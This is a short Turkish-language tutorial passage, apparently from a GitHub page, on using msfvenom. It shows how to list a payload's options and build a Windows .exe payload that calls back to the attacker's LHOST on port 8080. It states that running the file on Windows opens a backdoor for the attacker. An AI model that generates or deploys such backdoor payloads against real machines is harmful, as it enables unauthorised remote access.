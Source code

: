 - ▶️ Seçilen payload’un opsiyonlarını görmek için:  
```bash
msfvenom --payload <secilen_payload> --list options
```

- ⚙️ Opsiyonların çoğu genellikle sabittir ✅  
  - 🏠 **LHOST** → saldırganın IP adresi  
  - 🔌 **LPORT** → saldırganın dinleyeceği port (genelde `8080`, başarısız olursa değiştirilebilir)  

- 📦 Payload’u **exe formatında** üretmek için:  
```bash
msfvenom --payload <secilen_payload> LHOST=<saldirgan_ip> LPORT=8080 --format exe --out <dosya_adi>.exe
```

- 💻 Elde edilen `.exe` dosyası **Windows’ta çalıştırılmalıdır**  
- 🚪 Çalıştırıldığında saldırgan makine ile bağlantı kurularak **arka kapı erişimi (backdoor)** açılır 

---



